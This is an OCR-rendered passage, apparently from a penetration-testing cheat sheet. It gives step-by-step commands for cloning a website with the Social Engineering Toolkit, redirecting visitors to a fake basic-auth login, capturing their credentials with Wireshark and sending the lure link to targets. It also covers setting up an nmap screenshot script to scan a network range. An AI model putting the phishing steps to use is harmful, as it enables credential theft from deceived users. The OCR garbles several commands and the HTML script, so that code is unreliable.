 ```text
The steps below will clone a website and redirect after 3 seconds to
another page requiring basic authentication. It has proven very useful for
Collecting credentials during social engineering engagements.

1. Start Social Engineering Toolkit (SET)
     /pentest/exploits/set/./set
2. Through SET, use the 'Website Attack Vector' menu to clone yours
     preferred website. 'Do not close SET'
3. In a new terminal create a new directory (lowercase L)
     mkdir /var/www/1
4. Browse to SET directory and copy the cloned site
     cd /pentest/exploits/set/src/web clone/site/template/
     cp index.html /var/www/index.html
     cp index.html /var/www/1/index.html
5. Open /var/www/index.html and add tag between head tags
     meta http-equiv="refresh"
content="3;url=http:// domainlip /1/index.html"/
6. Create blank password file to be used for basic auth
     touch /etc/apache2/.htpasswd
7. Open /etc/apache2/sites-available/default and add:
     Directory /var/www/1
         AuthType Basic
         AuthName "PORTAL LOGIN BANNER"
         AuthUserFile /etc/apache2/.htpasswd
         Require user test
     /Directory
8. Start Apache2
     /etc/init.d/apache2 start
9. Start Wireshark and add the filter:
     http.authbasic
10. Send the following link to your target users
     http://domainlip/index.html
```

## Automate the photo process from the web page

### Using nmap

```text
Install dependencies:
     wget http://wkhtmltopdf.googlecode.com/files/wkhtmltoimage-0.11.0 rc1-
     static-i386.tar.bz2
     tar -jxvf wkhtmltoimage-0.11.0 rc1-statlc-i386.tar.bz2
     cp wkhtmltoimage-i386 /usr/local/bin/

Install Nmap module:
     git clone git://github.com/SpiderLabs/Nmap-Tools.git
     cd Nmap-Tools/NSE/
     cp http-screenshot.nse /usr/local/share/nmap/scripts/
     nmap --script-updatedb

OS/version detection using screenshot script (screenshots saved as .png):
     nmap -A -script=http-screenshot -p80,443 1.1.1.0/24 -oA nmap-
     screengrab

Script will generate HTML preview page with all screenshots:
#!/bin/bash
printf "HTHL.- BODY BR"
preview.html
ls -1 '.png I awk -F : ' {print $1":"$2"\n BR- IMG SRC=\""$1"%3A"$2"\"
width=400 BR BR ")' preview. html
printf " /BODY /HTML. " preview. html
```